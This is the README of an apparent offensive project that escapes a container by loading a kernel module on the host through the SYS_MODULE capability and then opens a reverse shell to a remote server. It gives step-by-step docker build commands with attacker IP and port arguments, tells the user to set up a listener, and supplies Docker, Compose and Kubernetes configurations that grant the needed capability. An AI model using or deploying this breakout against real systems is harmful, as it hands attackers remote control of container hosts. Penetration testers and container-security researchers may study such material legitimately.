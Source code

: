 # Container Breakout Using Kernel Modules

Containers are extremely useful for rapidly deploying applications. Instead of running an entire operating system on the host (like a virtual machine), containers share the host resources. This makes escaping a container slightly easier than VM. Whether the managed platform is Docker or Kubernetes, this breakout will be effective. Part of the shared resources between container and the host OS, are the host's kernel modules. A privileged container can install, remove, and modify kernel modules on the host from within the container. This project exploits that capability to create a reverse from the local host to a remote server.

## Requirements
This breakout does not work in all use cases. **Two** things must be present for this exploit to function:
* The host system must be Linux
* The container must be started with **SYS_MODULE** capability enabled. The container can also be ran as "privileged".

# Usage

## Building the Image
By default, a simple build of the image will create a reverse shell on 127.0.0.1:4444. Be sure all piecies of the project are in the same directory of Dockerfile.
```
docker build -t imagename /path/to/Dockerfile
```

To specify an IP address and port insure that the image is built with the respective arguments.
```
docker build -t imagename --build-arg IP_ADDRESS=1.1.1.1 --build-arg PORT_NUMBER=23 /path/to/Dockerfile
```
## Running the image
The image can be ran with any container deployment platform either inline, or in the configuration file. Be sure to have a listener activated before running the container.

#### Docker
```
docker run --cap-add=SYS_MODULE imagename
```

#### Docker Compose
Include the following in the config:
```
cap_add:
- SYS_MODULE
```
#### Kubernetes
Include the following in the pod specification:
```
spec:
    containers:
        image: imagename
        securityContext:
            capabilities:
                add:
                - SYS_MODULE
```
